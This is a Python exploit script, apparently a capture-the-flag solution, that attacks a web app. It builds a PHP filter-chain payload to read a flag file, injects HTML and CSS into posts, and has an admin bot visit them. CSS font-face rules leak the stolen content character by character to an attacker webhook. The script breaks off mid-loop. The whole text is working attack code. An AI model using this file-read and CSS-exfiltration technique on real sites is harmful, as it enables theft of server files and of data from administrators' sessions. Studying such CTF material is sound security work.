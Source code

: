 ```python
imgsrc = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=file:///flag2.txt"
def img_payload(prefix: str) -> str:
    css_rules = []

    for ch in IMAGE_CHARSET:
        guess = prefix + ch
        font_name = f"{guess}"
        font_url  = f"{WEBHOOK_BASE}/?name={guess}"
        css_rules += [
            f"@font-face{{font-family:'{font_name}';src:url('{font_url}')}}\n",
            f".payloadspan[src^='{guess}'] + .payloadspan{{font-family:'{font_name}'!important}}\n\n",
        ]
    return (
        f'<img src="{imgsrc}" class="payloadspan">\n'
        f'<span class="payloadspan">Give the name: {prefix}</span>\n'
        "<svg>\n<style>\n" + "".join(css_rules) + "\n</style>\n</svg>"
        "\n"
    )


def new_post(html: str) -> str:
    r = sess.post(urljoin(BASE_URL_APP, "create.php"),
                  data={"title": "font-probe", "content": html},
                  allow_redirects=False)
    if r.status_code != 302 or "Location" not in r.headers:
        raise RuntimeError("create.php failed")
    return urljoin(BASE_URL_APP, r.headers["Location"])


def notify_admin(url: str) -> None:
    r = sess.post(VISIT_URL, data={"url": url})
    if r.status_code != 200:
        raise RuntimeError("/visit failed")

try:
    prefix = START_PREFIX
    while True:
        print(f"\n=== skúšam prefix: {prefix}")
        payload = img_payload(prefix)
        print(payload)
        post_url = new_post(payload)
        post_url = post_url.replace("http://exp.cybergame.sk:7020/", "http://web/")
        print("  • post:", post_url)
        notify_admin(post_url)
        print("  • čakaj na hit →", f"{WEBHOOK_BASE}/{prefix}<X>?v=…")

        ch = input("  • ďalší hex znak > ").strip()
```